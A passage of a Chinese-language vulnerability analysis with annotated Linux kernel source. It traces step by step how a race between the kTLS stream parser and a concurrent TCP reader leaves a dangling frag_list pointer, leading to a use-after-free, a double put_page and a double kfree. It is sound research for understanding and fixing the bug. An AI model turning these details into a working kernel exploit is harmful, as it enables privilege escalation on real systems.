		/* 关键：frag_list = first，裸指针赋值，不 skb_get() */
		tls_strp_load_anchor_with_queue(strp, inq);

		/* 解析 TLS header，得到完整 record 长度 */
		sz = tls_rx_msg_size(strp, strp->anchor);
		if (sz < 0) {
			tls_strp_abort_strp(strp, sz);
			return sz;
		}

		/* 记录本 record 的完整长度（本例 5 + 35 = 40） */
		strp->stm.full_len = sz;

		if (!strp->stm.full_len || inq < strp->stm.full_len)
			return tls_strp_read_copy(strp, true);
	}

	if (!tls_strp_check_queue_ok(strp))
		return tls_strp_read_copy(strp, false);

	/* 标记 record 就绪，供 tls_rx_rec_wait 判断 */
	strp->msg_ready = 1;
	/* 解析完 header 后回调 saved_data_ready（即 tcp_data_ready），唤醒 tcp reader（wake #1） */
	tls_rx_msg_ready(strp);

	return 0;
}

void tls_rx_msg_ready(struct tls_strparser *strp)
{
	struct tls_sw_context_rx *ctx;

	ctx = container_of(strp, struct tls_sw_context_rx, strp);
	/* 回调的是保存的旧 data_ready，即 tcp_data_ready，进而唤醒 tcp reader */
	ctx->saved_data_ready(strp->sk);
}
```

`tls_strp_load_anchor_with_queue()` 是缓存绑定层的核心，`frag_list = first` 是裸指针赋值，不 `skb_get()`。此时 `A` 已被 ACK 释放，队列首 skb 是 `A_clone`；`anchor->frag_list` 因此指向 `A_clone`，而 `A_clone->head` 即 `H`、`A_clone->frags[0]` 即 `P1`。`H` 与 `P1` 都是从 `A_clone` 解析出来的对象，不是 `load_anchor` 直接产生的：

```c
static void tls_strp_load_anchor_with_queue(struct tls_strparser *strp, int len)
{
	struct tcp_sock *tp = tcp_sk(strp->sk);
	struct sk_buff *first;
	u32 offset;

	/* 按 tp->copied_seq 从接收队列中定位首个 skb。此时 A 已被 ACK 释放，队列里只剩 A_clone */
	first = tcp_recv_skb(strp->sk, tp->copied_seq, &offset);
	if (WARN_ON_ONCE(!first))
		return;

	/* Bestow the state onto the anchor */
	/* 把首 skb 的 len/data_len/truesize 复制到 anchor，使 anchor 看起来像一个覆盖该 record 的 skb */
	strp->anchor->len = offset + len;
	strp->anchor->data_len = offset + len;
	strp->anchor->truesize = offset + len;

	/* 关键：把 first（即 A_clone）挂入 anchor 的 frag_list，但不 skb_get()，不带引用计数 */
	skb_shinfo(strp->anchor)->frag_list = first;

	/* 复制 first 的 header 字段到 anchor，使后续解密能读到正确的 rxm->full_len 等 */
	skb_copy_header(strp->anchor, first);
	strp->anchor->destructor = NULL;

	/* 记录本 record 在 first 内的起始偏移 */
	strp->stm.offset = offset;
}

struct sk_buff *tcp_recv_skb(struct sock *sk, u32 seq, u32 *off)
{
	struct sk_buff *skb;
	u32 offset;

	/* 从接收队列头开始遍历，找到第一个覆盖 seq 的 skb */
	while ((skb = skb_peek(&sk->sk_receive_queue)) != NULL) {
		offset = seq - TCP_SKB_CB(skb)->seq;
		// [...]
		if (offset < skb->len || (TCP_SKB_CB(skb)->tcp_flags & TCPHDR_FIN)) {
			*off = offset;
			return skb;
		}
		/* 已被完整消费的 skb 直接从队列摘除并释放 */
		tcp_eat_recv_skb(sk, skb);
	}
	return NULL;
}
```

`tls_rx_msg_size()` 解析 TLS header，得到 `full_len=40`：

```c
int tls_rx_msg_size(struct tls_strparser *strp, struct sk_buff *skb)
{
	struct tls_context *tls_ctx = tls_get_ctx(strp->sk);
	struct tls_prot_info *prot = &tls_ctx->prot_info;
	char header[TLS_HEADER_SIZE + MAX_IV_SIZE];
	size_t cipher_overhead;
	size_t data_len = 0;
	int ret;

	/* header 长度不足时返回 0，表示需要更多数据 */
	if (strp->stm.offset + prot->prepend_size > skb->len)
		return 0;

	/* 把 TLS header 拷贝到本地缓冲区，后续解析 */
	ret = skb_copy_bits(skb, strp->stm.offset, header, prot->prepend_size);
	if (ret < 0)
		goto read_failure;

	/* record type 存在 mark 字段，后续 tlm->control 由它决定 */
	strp->mark = header[0];

	/* 解析 header 中的 length 字段，得到 payload 长度 */
	data_len = ((header[4] & 0xFF) | (header[3] << 8));
	// [...]
	/* 返回完整 record 长度：header + payload（本例 5 + 35 = 40） */
	return data_len + TLS_HEADER_SIZE;
	// [...]
}
```

tcp reader 被 wake #1 唤醒，`tcp_recvmsg_locked()` 中 `skb_copy_datagram_msg()` 消费 41B 后回到 `sk_wait_data()`。本层缺失的不变量是：`frag_list` 不带引用计数，anchor 只观察、不持有；skb 的生命周期仍由 `sk_receive_queue` 决定。队列侧一旦释放 skb，anchor 无法感知。这一缺口在 T4 被 tcp reader 触发，在 T5 由 `tls_strp_msg_load()` 的早退路径放大。

#### 2-2-5. T3 首次 recv

T3，主线程第一次 `recv()` 进入 `tls_sw_recvmsg()`，进入时 `tcp_inq=768`：

```c
int tls_sw_recvmsg(struct sock *sk,
		   struct msghdr *msg,
		   size_t len,
		   int flags,
		   int *addr_len)
{
	// [...]
	while (len && (decrypted + copied < target || tls_strp_msg_ready(ctx))) {
		struct tls_decrypt_arg darg;
		// [...]
		/* 等待 record 就绪：内部会调用 tls_strp_msg_load，T3 时 tcp_inq=768，不早退 */
		err = tls_rx_rec_wait(sk, psock, flags & MSG_DONTWAIT,
				      released);
		if (err <= 0) {
			// [...]
			goto recv_end;
		}
		// [...]
		/* 消费单条 record：解密、拷贝到用户态，并把结果挂入 rx_list */
		err = tls_rx_one_record(sk, msg, &darg);
		if (err < 0) {
			/* 参数 -EBADMSG 是硬编码的，与实际 err（此时为 -EFAULT）无关 */
			tls_err_abort(sk, -EBADMSG);
			goto recv_end;
		}
		// [...]
	}
	// [...]
}
```

`tls_rx_rec_wait()` 就绪后调用 `tls_strp_msg_load()`，T3 时 `tcp_inq=768 >= full_len=40`，`WARN_ON` 不触发，刷新执行：

```c
static int
tls_rx_rec_wait(struct sock *sk, struct sk_psock *psock, bool nonblock,
		bool released)
{
	struct tls_context *tls_ctx = tls_get_ctx(sk);
	struct tls_sw_context_rx *ctx = tls_sw_ctx_rx(tls_ctx);
	DEFINE_WAIT_FUNC(wait, woken_wake_function);
	int ret = 0;
	long timeo;

	timeo = sock_rcvtimeo(sk, nonblock);

	/* T3：msg_ready 已置位，不进入等待循环 */
	while (!tls_strp_msg_ready(ctx)) {
		// [...]
	}

	/* 关键：tls_strp_msg_load 返回 void，调用方无法区分成功与早退 */
	tls_strp_msg_load(&ctx->strp, released);

	/* 永远返回 1，等价于“load 成功”，调用方据此进入消费路径 */
	return 1;
}

void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
{
	struct strp_msg *rxm;
	struct tls_msg *tlm;

	DEBUG_NET_WARN_ON_ONCE(!strp->msg_ready);
	DEBUG_NET_WARN_ON_ONCE(!strp->stm.full_len);

	if (!strp->copy_mode && force_refresh) {
		/* T3：tcp_inq=768 >= 40，WARN_ON 不触发，继续往下执行刷新 */
		if (WARN_ON(tcp_inq(strp->sk) < strp->stm.full_len))
			return;

		/* 刷新执行：再次从接收队列首取 skb，写入的仍是 A_clone */
		tls_strp_load_anchor_with_queue(strp, strp->stm.full_len);
	}

	/* 把 stm 中的 record 元数据搬到 anchor，供后续 tls_decrypt_sg 使用 */
	rxm = strp_msg(strp->anchor);
	rxm->full_len	= strp->stm.full_len;
	rxm->offset	= strp->stm.offset;
	tlm = tls_msg(strp->anchor);
	tlm->control	= strp->mark;
}
```

T3 时 `tcp_inq=768 >= 40`，刷新执行，`anchor->frag_list` 再次写入同一个 `A_clone`。随后 `tls_rx_one_record()` → `tls_decrypt_sw()` → `tls_decrypt_sg()` 消费：

```c
static int tls_rx_one_record(struct sock *sk, struct msghdr *msg,
			     struct tls_decrypt_arg *darg)
{
	// [...]
	/* 先尝试设备卸载解密，失败时回落到软件解密 */
	err = tls_decrypt_device(sk, msg, tls_ctx, darg);
	if (!err)
		err = tls_decrypt_sw(sk, tls_ctx, msg, darg);
	if (err < 0)
		return err;
	// [...]
}

static int tls_decrypt_sw(struct sock *sk, struct tls_context *tls_ctx,
			  struct msghdr *msg, struct tls_decrypt_arg *darg)
{
	// [...]
	err = tls_decrypt_sg(sk, &msg->msg_iter, NULL, darg);
	if (err < 0) {
		if (err == -EBADMSG)
			TLS_INC_STATS(sock_net(sk), LINUX_MIB_TLSDECRYPTERROR);
		return err;
	}
	// [...]
}

static int tls_decrypt_sg(struct sock *sk, struct iov_iter *out_iov,
			  struct scatterlist *out_sg,
			  struct tls_decrypt_arg *darg)
{
	// [...]
	/* 取出 anchor，其 frag_list 指向 A_clone；T3 时 A_clone 仍存活 */
	struct sk_buff *skb = tls_strp_msg(ctx);
	const struct strp_msg *rxm = strp_msg(skb);
	// [...]
	/* 遍历 frag_list，构造 sgin；T3 时 A_clone 仍存活，不会触发 UAF */
	n_sgin = skb_nsg(skb, rxm->offset + prot->prepend_size,
			 rxm->full_len - prot->prepend_size);
	// [...]
	err = skb_to_sgvec(skb, &sgin[1],
			   rxm->offset + prot->prepend_size,
			   rxm->full_len - prot->prepend_size);
	// [...]
	/* 提交 AEAD 请求；T3 走同步路径，darg->async 为假，
	 * AEAD 在此同步完成并返回 0，tls_decrypt_sg 不进入
	 * tls_strp_msg_hold 分支；失败发生在之后的
	 * copy_to_user(ro_map)（ro_map 为 PROT_READ）。 */
	err = tls_do_decryption(sk, sgin, sgout, dctx->iv,
				data_len + prot->tail_size, aead_req, darg);
	if (err) {
		// [...]
		goto exit_free_pages;
	}
	// [...]
}
```

T3 的 `tls_do_decryption` 在同步路径上完成 AEAD 解密并返回 0，`darg->async` 为假，`tls_decrypt_sg` 不进入 `tls_strp_msg_hold` 分支；随后 `tls_decrypt_sg` 把明文拷贝到用户态，`copy_to_user(ro_map)` 因 `ro_map` 为 `PROT_READ` 而失败，`tls_decrypt_sg` 返回 `-EFAULT`，`tls_rx_one_record()` 把该值带回 `tls_sw_recvmsg()`。`tls_sw_recvmsg()` 在 `tls_rx_one_record()` 返回负值之后调用 `tls_err_abort(sk, -EBADMSG)`，设置 `sk_err=-EBADMSG` 并触发 wake #2：

```c
noinline void tls_err_abort(struct sock *sk, int err)
{
	WARN_ON_ONCE(err >= 0);
	/* sk->sk_err 应保存正的错误码，因此传入的 err 需取负 */
	/* T3：这里传入的 -EBADMSG 是硬编码的，与 tls_rx_one_record 实际返回的 -EFAULT 无关 */
	WRITE_ONCE(sk->sk_err, -err);
	/* Paired with smp_rmb() in tcp_poll() */
	smp_wmb();
	/* 唤醒所有等待在该 socket 上的进程（包括 tcp reader，wake #2） */
	sk_error_report(sk);
}

void sk_error_report(struct sock *sk)
{
	sk->sk_error_report(sk);
	// [...]
}
```

T3 结束时 `A_clone` 仍存活：`H->dataref=1`、`P1->page_ref=2`，`anchor->frag_list` 指向 `A_clone`。`recv()` 返回 `-1 / EFAULT`——`tls_rx_one_record()` 返回 `-EFAULT` 后 `recv_end` 直接返回该值，与 `tls_err_abort` 的硬编码参数无关。wake #2 将 tcp reader 从 `sk_wait_data()` 中唤醒，为 T4 的并发消费创造条件。

#### 2-2-6. T4 并发消费

T4，tcp reader 被 wake #2 唤醒，`tcp_recvmsg_locked()` 继续 drain 剩余 768B：

```c
int tcp_recvmsg(struct sock *sk, struct msghdr *msg, size_t len, int flags,
		int *addr_len)
{
	int cmsg_flags = 0, ret;
	struct scm_timestamping_internal tss;

	if (unlikely(flags & MSG_ERRQUEUE))
		return inet_recv_error(sk, msg, len, addr_len);
	// [...]
	lock_sock(sk);
	/* 进入 TCP 接收主循环；tcp reader 在 KTLS 安装前就停在这里 */
	ret = tcp_recvmsg_locked(sk, msg, len, flags, &tss, &cmsg_flags);
	release_sock(sk);
	// [...]
	return ret;
}

static int tcp_recvmsg_locked(struct sock *sk, struct msghdr *msg, size_t len,
			      int flags, struct scm_timestamping_internal *tss,
			      int *cmsg_flags)
{
	struct tcp_sock *tp = tcp_sk(sk);
	int copied = 0;
	// [...]
	struct sk_buff *skb, *last;

	// [...]
	do {
		u32 offset;
		// [...]
		/* 遍历接收队列，找到下一个可读 skb */
		last = skb_peek_tail(&sk->sk_receive_queue);
		skb_queue_walk(&sk->sk_receive_queue, skb) {
			last = skb;
			// [...]
			offset = *seq - TCP_SKB_CB(skb)->seq;
			// [...]
			if (offset < skb->len)
				goto found_ok_skb;
			// [...]
		}

		// [...]
		if (copied >= target) {
			__sk_flush_backlog(sk);
		} else {
			tcp_cleanup_rbuf(sk, copied);
			/* 阻塞等待：wake #1 / wake #2 都会从这里唤醒 */
			err = sk_wait_data(sk, &timeo, last);
			// [...]
		}
		// [...]
		continue;

found_ok_skb:
		used = skb->len - offset;
		if (len < used)
			used = len;

		// [...]
		/* 把 skb 数据拷贝到用户态缓冲区 */
		err = skb_copy_datagram_msg(skb, offset, msg, used);
		// [...]
		/* 推进 copied_seq，与 parser 的 tcp_inq 判断相关 */
		WRITE_ONCE(*seq, *seq + used);
		copied += used;
		len -= used;
		// [...]
skip_copy:
		// [...]
		if (used + offset < skb->len)
			continue;

		if (TCP_SKB_CB(skb)->tcp_flags & TCPHDR_FIN)
			goto found_fin_ok;
		if (!(flags & MSG_PEEK))
			/* 关键：把 A_clone 从 sk_receive_queue 摘除并释放，而 anchor->frag_list 仍指向它 */
			tcp_eat_recv_skb(sk, skb);
		continue;
		// [...]
	} while (len > 0);
	// [...]
}
```

`tcp_eat_recv_skb()` 从 `sk_receive_queue` 摘除 `A_clone`，经 `skb_attempt_defer_free` 进入 `__kfree_skb`：

```c
static void tcp_eat_recv_skb(struct sock *sk, struct sk_buff *skb)
{
	/* 从接收队列摘链：此后队列不再持有 A_clone 的引用 */
	__skb_unlink(skb, &sk->sk_receive_queue);
	if (likely(skb->destructor == sock_rfree)) {
		sock_rfree(skb);
		skb->destructor = NULL;
		skb->sk = NULL;
		/* 走 skb_attempt_defer_free：alloc_cpu == 当前 CPU 时
		 * 走 nodefer 立即释放，否则才延迟到 alloc_cpu 的
		 * defer_list。本例 alloc_cpu == 当前 CPU == 0，
		 * 立即释放。 */
		return skb_attempt_defer_free(skb);
	}
	/* 直接释放路径 */
	__kfree_skb(skb);
}

static inline void __skb_unlink(struct sk_buff *skb, struct sk_buff_head *list)
{
	struct sk_buff *next, *prev;

	WRITE_ONCE(list->qlen, list->qlen - 1);
	next	   = skb->next;
	prev	   = skb->prev;
	skb->next  = skb->prev = NULL;
	WRITE_ONCE(next->prev, prev);
	WRITE_ONCE(prev->next, next);
}

void skb_attempt_defer_free(struct sk_buff *skb)
{
	int cpu = skb->alloc_cpu;
	// [...]
	/* cpu 无效/离线、或与当前 CPU 相同时走 nodefer 立即释放；
	 * 仅在 cpu 有效且与当前 CPU 不同时，才挂入目标 CPU 的
	 * defer_list 延迟释放。本例 alloc_cpu == 当前 CPU == 0，
	 * 走 nodefer 立即释放。 */
	if (WARN_ON_ONCE(cpu >= nr_cpu_ids) ||
	    !cpu_online(cpu) ||
	    cpu == raw_smp_processor_id()) {
nodefer:	__kfree_skb(skb);
		return;
	}
	// [...]
}
```

`__kfree_skb()` → `skb_release_all()` → `skb_release_data(A_clone)` 中 `dataref` 从 1 减到 **0**，frags 循环运行——`put_page(P1)` 使 `page_ref` 从 2 降到 **1**；`skb_free_head()` 的 `kfree(head)` 即 `kfree(H)` 第一次；`kfree_skbmem(A_clone)` 中 `fclone_ref` 从 1 减到 **0**，`kmem_cache_free(skbuff_fclone_cache, fclones)` 释放整个 fclone 块：

```c
void __kfree_skb(struct sk_buff *skb)
{
	/* 先释放数据区（head / frags），再释放 skb 结构体本身 */
	skb_release_all(skb);
	kfree_skbmem(skb);
}

static void skb_release_all(struct sk_buff *skb)
{
	skb_release_head_state(skb);
	if (likely(skb->head))
		skb_release_data(skb);
}

static void skb_release_data(struct sk_buff *skb)
{
	struct skb_shared_info *shinfo = skb_shinfo(skb);
	int i;

	/* T4：dataref 1 -> 0，返回 0，不跳转，继续执行 frags 循环与 skb_free_head */
	if (skb->cloned &&
	    atomic_sub_return(skb->nohdr ? (1 << SKB_DATAREF_SHIFT) + 1 : 1,
			      &shinfo->dataref))
		goto exit;

	// [...]
	for (i = 0; i < shinfo->nr_frags; i++)
		/* T4：put_page(P1) 使 page_ref 从 2 降到 1（pipe_buffer 一份仍持有） */
		__skb_frag_unref(&shinfo->frags[i], skb->pp_recycle);

free_head:
	// [...]
	/* T4：kfree(H) 第一次发生；H 回到 kmalloc-1k freelist */
	skb_free_head(skb);
exit:
	skb->pp_recycle = 0;
}

static void skb_free_head(struct sk_buff *skb)
{
	unsigned char *head = skb->head;

	if (skb->head_frag) {
		if (skb_pp_recycle(skb, head))
			return;
		skb_free_frag(head);
	} else {
		/* H 位于 kmalloc-1k，走通用 kfree 路径 */
		kfree(head);
	}
}

static void kfree_skbmem(struct sk_buff *skb)
{
	struct sk_buff_fclones *fclones;

	switch (skb->fclone) {
	case SKB_FCLONE_UNAVAILABLE:
		kmem_cache_free(skbuff_head_cache, skb);
		return;

	case SKB_FCLONE_ORIG:
		fclones = container_of(skb, struct sk_buff_fclones, skb1);
		if (refcount_read(&fclones->fclone_ref) == 1)
			goto fastpath;
		break;

	default: /* SKB_FCLONE_CLONE */
		fclones = container_of(skb, struct sk_buff_fclones, skb2);
		break;
	}
	/* T4：A_clone 是 SKB_FCLONE_CLONE，fclone_ref 1 -> 0 返回 true，进入 fastpath */
	if (!refcount_dec_and_test(&fclones->fclone_ref))
		return;
fastpath:
	/* 释放整个 sk_buff_fclones 块，A 与 A_clone 两个结构体一并消失 */
	kmem_cache_free(skbuff_fclone_cache, fclones);
}
```

T4 结束时：`H->dataref=0`（`H` 第一次 `kfree`）、`P1->page_ref=1`、`fclone_ref=0`（`A` 与 `A_clone` 两个结构体一并消失）；`anchor->frag_list` 仍保持原值，由有效指针转为悬垂指针。本层缺失的不变量是：`tcp_recvmsg_locked()` 与 `tls_sw_recvmsg()` 之间的接收队列消费是并发且无同步的。tcp reader 经 `tcp_eat_recv_skb()` 摘除的 skb 正是 `tls_strp_load_anchor_with_queue()` 缓存的 `frag_list` 目标；`__kfree_skb()` → `skb_release_data()` 在 `dataref == 0` 时执行 `put_page(P1)` 与 `kfree(H)`，而 anchor 侧对此一无所知。悬垂指针在 T5 被 `tls_strp_msg_hold()` 消费，触发二次 `put_page(P1)`。

#### 2-2-7. T5 二次 recv 与 T5 purge

T5，主线程第二次 `recv()` 进入 `tls_sw_recvmsg()`，进入时 `tcp_inq=0`：

```c
int tls_sw_recvmsg(struct sock *sk,
		   struct msghdr *msg,
		   size_t len,
		   int flags,
		   int *addr_len)
{
	// [...]
	while (len && (decrypted + copied < target || tls_strp_msg_ready(ctx))) {
		struct tls_decrypt_arg darg;
		// [...]
		/* 进入 tls_rx_rec_wait：T5 时 tcp_inq=0，tls_strp_msg_load 会早退 */
		err = tls_rx_rec_wait(sk, psock, flags & MSG_DONTWAIT,
				      released);
		if (err <= 0) {
			// [...]
			goto recv_end;
		}
		// [...]
		/* 消费单条 record：T5 时 frag_list 悬垂，会触发 UAF 读与假引用 */
		err = tls_rx_one_record(sk, msg, &darg);
		if (err < 0) {
			/* T5：此处 err == -EBADMSG，与 tls_err_abort 的硬编码参数同值 */
			tls_err_abort(sk, -EBADMSG);
			goto recv_end;
		}
		// [...]
	}
	// [...]
}
```

`tls_rx_rec_wait()` 就绪后调用 `tls_strp_msg_load()`，T5 时 `tcp_inq=0 < full_len=40`，`WARN_ON` 触发并早退：

```c
static int
tls_rx_rec_wait(struct sock *sk, struct sk_psock *psock, bool nonblock,
		bool released)
{
	struct tls_context *tls_ctx = tls_get_ctx(sk);
	struct tls_sw_context_rx *ctx = tls_sw_ctx_rx(tls_ctx);
	DEFINE_WAIT_FUNC(wait, woken_wake_function);
	int ret = 0;
	long timeo;

	timeo = sock_rcvtimeo(sk, nonblock);

	/* T5：msg_ready 已置位，不进入等待循环 */
	while (!tls_strp_msg_ready(ctx)) {
		// [...]
	}

	/* T5：tcp_inq=0，tls_strp_msg_load 早退，但返回值被忽略 */
	tls_strp_msg_load(&ctx->strp, released);

	/* T5：仍返回 1，调用方无法感知 load 早退 */
	return 1;
}

void tls_strp_msg_load(struct tls_strparser *strp, bool force_refresh)
{
	struct strp_msg *rxm;
	struct tls_msg *tlm;

	DEBUG_NET_WARN_ON_ONCE(!strp->msg_ready);
	DEBUG_NET_WARN_ON_ONCE(!strp->stm.full_len);

	if (!strp->copy_mode && force_refresh) {
		/* T5：tcp_inq=0 < 40，WARN_ON 触发，早退 */
		if (WARN_ON(tcp_inq(strp->sk) < strp->stm.full_len))
			return;

		/* T5：早退后不会执行到这里，anchor->frag_list 保持悬垂 */
		tls_strp_load_anchor_with_queue(strp, strp->stm.full_len);
	}

	/* T5：早退时以下字段更新被跳过，anchor 仍保存旧的 stm 内容 */
	rxm = strp_msg(strp->anchor);
	rxm->full_len	= strp->stm.full_len;
	rxm->offset	= strp->stm.offset;
	tlm = tls_msg(strp->anchor);
	tlm->control	= strp->mark;
}
```

T5 的 `WARN_ON + return` 早退时，`strp->stm.full_len` 保持原值（40），`anchor->frag_list` 保持原值（悬垂指针 `A_clone`），`anchor->full_len` / `offset` / `control` 不被更新。`tls_rx_rec_wait()` 仍返回 1，`tls_sw_recvmsg()` 继续走到 `tls_rx_one_record()`。`tls_strp_msg_hold()` 是 UAF 消费点：它遍历悬垂 `frag_list`，对已释放的 `A_clone` 执行 `skb_clone`：

```c
static int tls_rx_one_record(struct sock *sk, struct msghdr *msg,
			     struct tls_decrypt_arg *darg)
{
	// [...]
	err = tls_decrypt_device(sk, msg, tls_ctx, darg);
	if (!err)
		err = tls_decrypt_sw(sk, tls_ctx, msg, darg);
	if (err < 0)
		return err;
	// [...]
}

static int tls_decrypt_sw(struct sock *sk, struct tls_context *tls_ctx,
			  struct msghdr *msg, struct tls_decrypt_arg *darg)
{
	// [...]
	err = tls_decrypt_sg(sk, &msg->msg_iter, NULL, darg);
	if (err < 0) {
		if (err == -EBADMSG)
			TLS_INC_STATS(sock_net(sk), LINUX_MIB_TLSDECRYPTERROR);
		return err;
	}
	// [...]
}

static int tls_decrypt_sg(struct sock *sk, struct iov_iter *out_iov,
			  struct scatterlist *out_sg,
			  struct tls_decrypt_arg *darg)
{
	// [...]
	/* T5：anchor->frag_list 指向已释放的 A_clone */
	struct sk_buff *skb = tls_strp_msg(ctx);
	const struct strp_msg *rxm = strp_msg(skb);
	// [...]
	/* T5：遍历悬垂 frag_list，对已释放的 A_clone 做 UAF 读 */
	n_sgin = skb_nsg(skb, rxm->offset + prot->prepend_size,
			 rxm->full_len - prot->prepend_size);
	// [...]
	err = skb_to_sgvec(skb, &sgin[1],
			   rxm->offset + prot->prepend_size,
			   rxm->full_len - prot->prepend_size);
	// [...]
	err = tls_do_decryption(sk, sgin, sgout, dctx->iv,
				data_len + prot->tail_size, aead_req, darg);
	if (err) {
		// [...]
		goto exit_free_pages;
	}

	darg->skb = clear_skb ?: tls_strp_msg(ctx);
	clear_skb = NULL;

	if (unlikely(darg->async)) {
		/* T5：异步路径：遍历 frag_list，对悬垂 A_clone 执行 skb_clone，挂入 async_hold */
		err = tls_strp_msg_hold(&ctx->strp, &ctx->async_hold);
		if (err)
			__skb_queue_tail(&ctx->async_hold, darg->skb);
		return err;
	}
	// [...]
}

int tls_strp_msg_hold(struct tls_strparser *strp, struct sk_buff_head *dst)
{
	struct skb_shared_info *shinfo = skb_shinfo(strp->anchor);

	// [...]
	} else {
		struct sk_buff *iter, *clone;
		int chunk, len, offset;

		offset = strp->stm.offset;
		len = strp->stm.full_len;
		/* T5：frag_list 悬垂，iter 指向已释放的 A_clone */
		iter = shinfo->frag_list;

		while (len > 0) {
			// [...]
			/* 对悬垂 A_clone 执行 skb_clone，生成 n 并挂入 async_hold */
			clone = skb_clone(iter, strp->sk->sk_allocation);
			if (!clone)
				return -ENOMEM;
			__skb_queue_tail(dst, clone);
			// [...]
		}
	}

	return 0;
}
```

T5 的 `skb_clone(A_clone)` 中 `A_clone` 是 `SKB_FCLONE_CLONE`，不满足 fclone 分支（该分支要求 `SKB_FCLONE_ORIG && fclone_ref == 1`），走 `kmem_cache_alloc(skbuff_head_cache)` 分配 `n`，`n->fclone = SKB_FCLONE_UNAVAILABLE`；`__skb_clone()` 的 `atomic_inc(&shinfo->dataref)` 把 `dataref` 从 0 拉回 **1**（假引用）：

```c
struct sk_buff *skb_clone(struct sk_buff *skb, gfp_t gfp_mask)
{
	struct sk_buff_fclones *fclones = container_of(skb,
						       struct sk_buff_fclones,
						       skb1);
	struct sk_buff *n;

	if (skb_orphan_frags(skb, gfp_mask))
		return NULL;

	/* T5：A_clone 的 fclone 为 SKB_FCLONE_CLONE，不满足此分支条件 */
	if (skb->fclone == SKB_FCLONE_ORIG &&
	    refcount_read(&fclones->fclone_ref) == 1) {
		// [...]
	} else {
		// [...]
		/* 从 skbuff_head_cache 分配独立的 n，与 A_clone 所在的 fclone cache 不同 */
		n = kmem_cache_alloc(skbuff_head_cache, gfp_mask);
		if (!n)
			return NULL;

		n->fclone = SKB_FCLONE_UNAVAILABLE;
	}

	return __skb_clone(n, skb);
}

static struct sk_buff *__skb_clone(struct sk_buff *n, struct sk_buff *skb)
{
	// [...]
	/* 对已释放的 H 做 atomic_inc：dataref 0 -> 1，构成假引用 */
	atomic_inc(&(skb_shinfo(skb)->dataref));
	skb->cloned = 1;

	return n;
}
```

`tls_strp_msg_hold()` 进入与 `skb_clone` 是顺序执行的，但 AEAD 异步失败回调 `tls_decrypt_done()` 在 workqueue 上下文并发执行，可能与 `tls_strp_msg_hold()` 交错——两者只是执行时机上重叠，逻辑上 `tls_strp_msg_hold 进入 → skb_clone → 返回` 仍是顺序的。

AEAD 异步失败，`tls_decrypt_done()` 收到 `err=-EBADMSG`，调 `tls_err_abort(sk, err)`（此处 `err == arg == -EBADMSG`），`tls_sw_recvmsg()` 的 `recv_end` 分支执行 `tls_decrypt_async_wait()` 与 `__skb_queue_purge()`：

```c
static void tls_decrypt_done(crypto_completion_data_t *data, int err)
{
	// [...]
	if (err) {
		if (err == -EBADMSG)
			TLS_INC_STATS(sock_net(sk), LINUX_MIB_TLSDECRYPTERROR);
		ctx->async_wait.err = err;
		/* T5：此处 err 与 arg 同为 -EBADMSG，不同于 T3 的硬编码 */
		tls_err_abort(sk, err);
	}
	// [...]
}

static int tls_decrypt_async_wait(struct tls_sw_context_rx *ctx)
{
	if (!atomic_dec_and_test(&ctx->decrypt_pending))
		crypto_wait_req(-EINPROGRESS, &ctx->async_wait);
	atomic_inc(&ctx->decrypt_pending);

	return ctx->async_wait.err;
}

static inline void __skb_queue_purge(struct sk_buff_head *list)
{
	struct sk_buff *skb;
	/* 逐个从队列取出 n 并释放；每释放一个就触发一次 skb_release_data(n) */
	while ((skb = __skb_dequeue(list)) != NULL)
		kfree_skb(skb);
}

static inline void kfree_skb(struct sk_buff *skb)
{
	kfree_skb_reason(skb, SKB_DROP_REASON_NOT_SPECIFIED);
}

void __fix_address
kfree_skb_reason(struct sk_buff *skb, enum skb_drop_reason reason)
{
	/* 若 skb->users 递减后仍非零，说明还有其他人持有引用，直接返回 */
	if (unlikely(!skb_unref(skb)))
		return;

	// [...]
	/* 进入实际释放路径：skb_release_all + kfree_skbmem */
	__kfree_skb(skb);
}
```

`__kfree_skb(n)` → `skb_release_all(n)` → `skb_release_data(n)` 中 `dataref` 从 1 减到 **0**，frags 循环运行——`put_page(P1)` 使 `page_ref` 从 1 降到 **0**；`skb_free_head()` 的 `kfree(head)` 即 `kfree(H)` 第二次；`kfree_skbmem(n)` 因 `n->fclone == SKB_FCLONE_UNAVAILABLE` 直接 `kmem_cache_free(skbuff_head_cache, n)`：

```c
void __kfree_skb(struct sk_buff *skb)
{
	skb_release_all(skb);
	kfree_skbmem(skb);
}

static void skb_release_all(struct sk_buff *skb)
{
	skb_release_head_state(skb);
	if (likely(skb->head))
		skb_release_data(skb);
}

static void skb_release_data(struct sk_buff *skb)
{
	struct skb_shared_info *shinfo = skb_shinfo(skb);
	int i;

	/* T5：n 的 dataref 1 -> 0，返回 0，进入 frags 循环 */
	if (skb->cloned &&
	    atomic_sub_return(skb->nohdr ? (1 << SKB_DATAREF_SHIFT) + 1 : 1,
			      &shinfo->dataref))
		goto exit;

	// [...]
	for (i = 0; i < shinfo->nr_frags; i++)
		/* T5：put_page(P1) 使 page_ref 从 1 降到 0。这一次 put_page 没有合法持有者 */
		__skb_frag_unref(&shinfo->frags[i], skb->pp_recycle);

free_head:
	// [...]
	/* T5：kfree(H) 第二次发生；H 再次回到 kmalloc-1k freelist */
	skb_free_head(skb);
exit:
	skb->pp_recycle = 0;
}

static void skb_free_head(struct sk_buff *skb)
{
	unsigned char *head = skb->head;

	if (skb->head_frag) {
		if (skb_pp_recycle(skb, head))
			return;
		skb_free_frag(head);
	} else {
		kfree(head);
	}
}

static void kfree_skbmem(struct sk_buff *skb)
{
	struct sk_buff_fclones *fclones;

	switch (skb->fclone) {
	case SKB_FCLONE_UNAVAILABLE:
		/* T5：n 的 fclone 为 UNAVAILABLE，直接释放回 skbuff_head_cache */
		kmem_cache_free(skbuff_head_cache, skb);
		return;
	// [...]
	}
	// [...]
}
```

